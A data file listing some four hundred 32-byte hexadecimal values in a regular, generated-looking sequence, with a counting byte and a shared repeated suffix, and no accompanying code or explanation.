0000000000000000000000000029052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000028052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000027052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000026052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000025052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000024052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000023052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000022052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000021052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000020052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000001f052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000001e052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000001d052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000001c052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000001b052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000001a052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000019052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000018052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000017052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000016052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000015052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000014052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000013052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000012052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000011052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000010052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000f052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000e052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000d052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000c052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000b052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000000a052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000009052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000008052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000ff0f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000fe0f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000fd0f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000fc0f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000fb0f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000fa0f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000f90f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000f80f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000f70f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000f60f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000f50f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000f40f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000f30f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000f20f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000f10f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000f00f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000ef0f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000ee0f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000ed0f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000ec0f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000eb0f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000ea0f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000e90f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000e80f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000e70f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000e60f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000e50f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000e40f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000e30f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000e20f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000e10f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000e00f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000df0f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000de0f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000dd0f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000dc0f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000db0f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000da0f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000d90f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000d80f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000d70f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000d60f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000d50f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000d40f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000d30f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000d20f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000d10f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000d00f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000cf0f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000ce0f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000cd0f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000cc0f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000cb0f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000ca0f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000c90f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000c80f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000c70f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000c60f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000c50f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000c40f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000c30f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000c20f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000c10f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000c00f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000bf0f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000be0f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000bd0f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000bc0f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000bb0f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000ba0f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000b90f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000b80f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000b70f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000b60f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000b50f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000b40f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000b30f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000b20f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000b10f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000b00f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000af0f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000ae0f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000ad0f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000ac0f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000ab0f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000aa0f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000a90f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000a80f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000a70f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000a60f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000a50f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000a40f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000a30f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000a20f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000a10f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000a00f0228fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000009f0f0228fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000009e0f0228fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000009d0f0228fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000009c0f0228fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000009b0f0228fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000009a0f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000990f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000980f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000970f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000960f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000950f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000940f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000930f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000920f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000910f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000900f0228fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000008f0f0228fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000008e0f0228fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000008d0f0228fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000008c0f0228fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000008b0f0228fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000008a0f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000890f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000880f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000870f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000860f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000850f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000840f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000830f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000820f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000810f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000800f0228fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000007f0f0228fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000007e0f0228fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000007d0f0228fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000007c0f0228fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000007b0f0228fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000007a0f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000790f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000780f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000770f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000760f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000750f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000740f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000730f0228fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000720f0228fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000ff730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000fe730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000fd730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000fc730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000fb730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000fa730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000f9730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000f8730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000f7730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000f6730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000f5730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000f4730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000f3730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000f2730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000f1730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000f0730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000ef730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000ee730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000ed730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000ec730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000eb730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000ea730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000e9730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000e8730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000e7730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000e6730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000e5730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000e4730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000e3730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000e2730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000e1730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000e0730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000df730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000de730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000dd730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000dc730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000db730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000da730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000d9730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000d8730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000d7730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000d6730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000d5730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000d4730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000d3730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000d2730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000d1730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000d0730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000cf730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000ce730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000cd730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000cc730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000cb730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000ca730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000c9730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000c8730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000c7730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000c6730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000c5730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000c4730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000c3730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000c2730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000c1730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000c0730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000bf730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000be730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000bd730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000bc730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000bb730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000ba730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000b9730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000b8730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000b7730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000b6730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000b5730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000b4730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000b3730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000b2730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000b1730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000b0730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000af730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000ae730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000ad730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000ac730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000ab730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000aa730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000a9730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000a8730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000a7730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000a6730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000a5730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000a4730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000a3730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000a2730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000a1730e0329fe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000a0730e0329fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000009f730e0329fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000009e730e0329fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000009d730e0329fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000009c730e0329fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000009b730e0329fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000009a730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000099730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000098730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000097730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000096730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000095730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000094730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000093730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000092730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000091730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000090730e0329fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000008f730e0329fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000008e730e0329fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000008d730e0329fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000008c730e0329fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000008b730e0329fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000008a730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000089730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000088730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000087730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000086730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000085730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000084730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000083730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000082730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000081730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000080730e0329fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000007f730e0329fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000007e730e0329fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000007d730e0329fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000007c730e0329fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000007b730e0329fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000007a730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000079730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000078730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000077730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000076730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000075730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000074730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000073730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000072730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000071730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000070730e0329fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000006f730e0329fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000006e730e0329fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000006d730e0329fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000006c730e0329fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000006b730e0329fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000006a730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000069730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000068730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000067730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000066730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000065730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000064730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000063730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000062730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000061730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000060730e0329fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000005f730e0329fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000005e730e0329fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000005d730e0329fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000005c730e0329fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000005b730e0329fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000005a730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000059730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000058730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000057730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000056730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000055730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000054730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000053730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000052730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000051730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000050730e0329fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000004f730e0329fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000004e730e0329fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000004d730e0329fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000004c730e0329fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000004b730e0329fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000004a730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000049730e0329fe249615e3e8da834ab4e67cc0348cc4
000000000000000000000048730e0329fe249615e3e8da834ab4e67cc0348cc4
00000000000000000000ff4b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000fe4b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000fd4b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000fc4b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000fb4b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000fa4b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000f94b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000f84b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000f74b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000f64b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000f54b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000f44b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000f34b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000f24b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000f14b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000f04b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000ef4b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000ee4b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000ed4b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000ec4b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000eb4b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000ea4b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000e94b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000e84b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000e74b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000e64b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000e54b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000e44b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000e34b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000e24b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000e14b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000e04b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000df4b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000de4b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000dd4b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000dc4b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000db4b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000da4b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000d94b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000d84b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000d74b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000d64b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000d54b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000d44b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000d34b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000d24b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000d14b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000d04b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000cf4b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000ce4b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000cd4b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000cc4b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000cb4b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000ca4b700d002afe249615e3e8da834ab4e67cc0348cc4
00000000000000000000c94b700d002afe249615e3e8da834ab4e67cc0348cc4
